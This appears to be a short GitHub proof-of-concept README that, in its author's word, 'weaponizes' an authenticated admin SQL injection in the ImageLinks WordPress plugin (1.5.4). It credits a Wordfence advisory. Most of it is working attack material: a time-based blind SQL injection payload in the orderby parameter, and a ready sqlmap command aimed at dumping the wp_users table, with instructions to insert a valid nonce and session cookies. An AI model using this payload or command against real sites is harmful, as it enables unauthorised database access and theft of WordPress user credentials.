 ## I DO NOT TAKE CREDIT FOR THIS:
https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/imagelinks-interactive-image-builder-lite/imagelinks-154-authenticated-admin-sql-injection

*I simply am weaponizing this and publicizing the vulnerability*

PoC:

```page=imagelinks&_wpnonce=13e9be524c&_wp_http_referer=/wp-admin/admin.php?page=imagelinks&action=-1&imagelinks_item[0]=2&action2=-1&orderby=title AND (SELECT 2209 FROM (SELECT(SLEEP(5)))GBjd)&order=asc```

SQLMap:

> MAKE SURE TO REPLACE THE NONCE AND ADD COOKIES, YOU MAY NEED TO ENUM DATABASES AS WELL AND PIN TO PROPER DATABASE
```
sqlmap -u 'http://localhost/wp-admin/admin.php?page=imagelinks&_wpnonce=13e9be524c&_wp_http_referer=/wp-admin/admin.php?page=imagelinks&action=-1&imagelinks_item[0]=2&action2=-1&orderby=title&order=asc' -p 'orderby' -D wordpress -T wp_users --cookie='COOKIESHERE'
```